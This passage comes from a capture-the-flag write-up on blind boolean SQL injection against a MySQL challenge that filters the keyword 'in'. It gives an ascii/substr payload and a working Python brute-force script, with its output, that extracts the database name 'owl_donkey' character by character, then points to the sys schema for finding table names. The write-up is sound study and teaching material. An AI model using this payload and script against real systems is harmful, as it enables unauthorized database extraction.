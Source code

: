 Another hurdle here is MySQL is case insensitive language and like operator also didn't check the casing. So if we don't identify table/database name properly including lower/upper case we can't pitch further into the challenge. One way we could check that is using ``BINARY`` but as its having ``IN`` we can't use it. other way is to use ``COLLATION`` again those have ``IN`` ex: latin we can't use them as well. I ended up eating lot of time searching for ways and useful functions in MySQL. Finally i could use ascii on both sides to convert them to decimal and then check properly.

Payload is as 
``2 && ascii(substr(database(),{},10))=ascii("{}")`` 

```css
import requests
from string import printable

url='http://45.77.240.178:8002/index.php'


def dump_database():
	j=1
	result=''
	while j<=10:
		#length of database can be found using : 2 && length(database())<11
		for i in printable:
				if i!='%':
					r = requests.post(url,headers={'Content-Type':'application/x-www-form-urlencoded'},data={'id':'2 && ascii(substr(database(),{},10))=ascii("{}")'.format(j,i)},proxies={'http':'http://127.0.0.1:8080'})
					if 'guest' in r.text:
						result=result+i
						print '[+] Database Name : {}'.format(result)
						break
		j+=1

dump_database()
```

which shows result as 
```css
root@MrR3boot:~# python do.py 
[+] Database Name : o
[+] Database Name : ow
[+] Database Name : owl
[+] Database Name : owl_
[+] Database Name : owl_d
[+] Database Name : owl_do
[+] Database Name : owl_don
[+] Database Name : owl_donk
[+] Database Name : owl_donke
[+] Database Name : owl_donkey
```
Now we have database name and next step is to identify ``table names``. But HOW ?

We see ``in`` keyword blocked where we can't use ``information_schema|innodb``. After hours and hours of searching online we could read about ``sys`` database which comes with ``MySQL Community Edition``.
